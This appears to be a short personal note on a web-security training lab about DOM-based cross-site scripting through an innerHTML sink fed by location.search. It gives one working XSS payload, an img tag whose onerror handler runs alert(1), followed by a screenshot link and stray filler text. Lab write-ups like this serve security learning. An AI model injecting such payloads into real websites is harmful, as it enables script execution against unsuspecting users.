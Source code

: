# 03 Lab: DOM XSS in innerHTML sink using source location.search

1. `<img src=1 onerror=alert(1)>`

![Untitled](03%20Lab%20DOM%20XSS%20in%20innerHTML%20sink%20using%20source%20loca%2012cfab5460ec8010bfa6cdf3cb75bb7f/Untitled.png)

fdsfdsfds